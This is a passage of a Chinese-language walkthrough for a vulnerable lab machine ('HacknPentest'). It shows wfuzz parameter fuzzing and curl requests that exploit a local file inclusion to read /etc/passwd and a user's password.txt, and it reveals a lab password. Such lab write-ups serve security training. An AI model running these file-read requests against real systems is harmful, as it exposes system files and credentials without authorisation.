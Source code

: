 ```shell
//see the location.txt and you will get your next move//

```

Tips：使用模糊测试查找正确参数，查看 location.txt

使用 wfuzz 对 image.php 和 index.php 进行模糊测试

```shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.30.134/index.php?FUZZ
# 过滤结果 根据响应代码或字符数（不等于136）过滤掉结果
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 136  http://192.168.30.134/index.php?FUZZ

wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --filter "c=200 and h!=136" http://192.168.30.134/index.php?FUZZ
```

![image-20221207150628111.png](https://img.ghostliner.top/zo7Fo6.png)

获得参数为 file，猜测通过此参数可读取文件

```shell
curl http://192.168.30.134/index.php?file=/etc/passwd #失败
curl http://192.168.30.134/index.php?file=location.txt

###
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" />
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
```

Tips:使用 secrettier360 参数在其他页面上尝试

```shell
curl http://192.168.30.134/image.php?secrettier360=/etc/passwd
```

![image-20221207155810036.png](https://img.ghostliner.top/PNZ6c8.png)

Tips:sacket:find password.txt file in my directory:/home/saket

```shell
curl http://192.168.30.134/image.php?secrettier360=/home/saket/password.txt
```

![image-20221207155950002.png](https://img.ghostliner.top/HMLc0Y.png)

密码：follow_the_ippsec

获取用户名
